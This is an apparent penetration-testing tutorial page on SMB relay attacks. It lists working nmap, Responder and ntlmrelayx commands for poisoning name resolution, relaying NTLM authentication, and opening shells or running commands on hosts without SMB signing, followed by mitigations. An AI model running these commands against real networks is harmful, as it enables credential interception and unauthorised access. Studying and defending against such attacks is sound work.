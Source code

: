 # ❄️ SMB Relay Attacks

### **Understanding SMB Relay Attacks:**

SMB Relay Attacks exploit the absence of SMB signing enforcement, a security feature that safeguards data integrity during transit. When SMB signing is disabled on a target machine, attackers can intercept and relay authentication requests to gain unauthorized access. This attack is effective when the relayed user has administrative privileges on the target.

<figure><img src="https://images.contentstack.io/v3/assets/blt36c2e63521272fdc/blt2a93d95cba77be1e/5dfcef9c41f23743155b847a/smbrelaypic2-relaydiagram.png" alt=""><figcaption></figcaption></figure>

### **Commands Breakdown:**

Let's break down the commands used in this SMB Relay Attacks documentation:

### **1. Identifying Hosts without SMB Signing:**

```bash
nmap --script=smb2-security-mode.nse -p445 <target_IP>
```

* **nmap:** A network scanning tool.
* **--script=smb2-security-mode.nse:** Nmap script to check SMB signing status.
* **-p445:** Specifies the port to scan (SMB port).
* **\<target\_IP>:** IP address of the target machine.

This command scans for hosts and checks if SMB signing is disabled or not enforced.

### **2. Modifying Responder Configuration:**

```bash
sudo mousepad /etc/responder/Responder.conf
```

* **sudo mousepad:** Opens the Responder configuration file with elevated privileges.
* **/etc/responder/Responder.conf:** Path to the Responder configuration file.

Edit the Responder configuration to disable SMB and HTTP, ensuring captured hashes are relayed.

### **3. Running Responder and NTLMRelayx:**

**Running Responder:**

```bash
sudo responder -I eth0 -wrf
```

* **sudo responder:** Launches Responder with elevated privileges.
* **-I eth0:** Specifies the network interface.
* **-wrf:** Options for Responder (analyze, poison, and fingerprint).

**Running NTLMRelayx:**

```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

* **sudo ntlmrelayx.py:** Executes NTLMRelayx with elevated privileges.
* **-tf targets.txt:** Specifies the target file containing identified hosts.
* **-smb2support:** Enables SMB2 support for relay.

This command relays captured hashes from Responder to the target machines listed in the target file.

**Additional Options:**

**Interactive Shell:**

```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
```

* **-i:** Initiates an interactive shell on the target.

**Run a Command:**

```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

* **-c "whoami":** Executes the specified command on the target.

Very good documentation about this attack and pentest in general: [https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/smb-relay](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/smb-relay)

## Mitigation Strategies for SMB Relay Attacks

Mitigating SMB Relay Attacks involves implementing various strategies to enhance the security of your infrastructure. Let's explore some common mitigation techniques and discuss their pros and cons:

### 1. Enable SMB Signing on All Devices

#### Pros:

* **Data Integrity:** SMB signing ensures the integrity of data during transfer, preventing unauthorized modifications.
* **Authentication Assurance:** It enhances authentication by confirming the legitimacy of the parties involved in the communication.

#### Cons:

* **Resource Overhead:** Enabling SMB signing may impose a slight performance overhead on the system.
* **Compatibility Concerns:** Some legacy devices or applications might face compatibility issues with SMB signing.

### 2. Disable NTLM Authentication on the Network

#### Pros:

* **Security Enhancement:** Disabling NTLM reduces the risk of relay attacks, as NTLM is a common target for exploitation.
* **Forces Use of Kerberos:** Encourages the use of more secure authentication mechanisms like Kerberos.

#### Cons:

* **Compatibility Issues:** Some older systems or applications may rely on NTLM, causing compatibility problems.
* **Potential Disruption:** Disabling NTLM authentication abruptly can disrupt services that depend on it.

### 3. Account Tiering

#### Pros:

* **Least Privilege:** Assigning different access levels based on job roles limits the impact of compromised accounts.
* **Granular Control:** Enables fine-grained control over user permissions, reducing the attack surface.

#### Cons:

* **Administrative Overhead:** Managing and maintaining tiered account structures can be administratively demanding.
* **User Training:** Requires proper user education to avoid privilege-related issues.

### 4. Local Admin Restriction

#### Pros:

* **Mitigates Lateral Movement:** Restricting local admin rights prevents attackers from easily moving laterally within the network.
* **Limits Privilege Escalation:** Reduces the risk of privilege escalation through compromised local admin credentials.

#### Cons:

* **User Convenience:** Users may face inconvenience when they need elevated privileges for legitimate tasks.
* **Application Compatibility:** Some applications may require local admin rights, potentially causing compatibility issues.
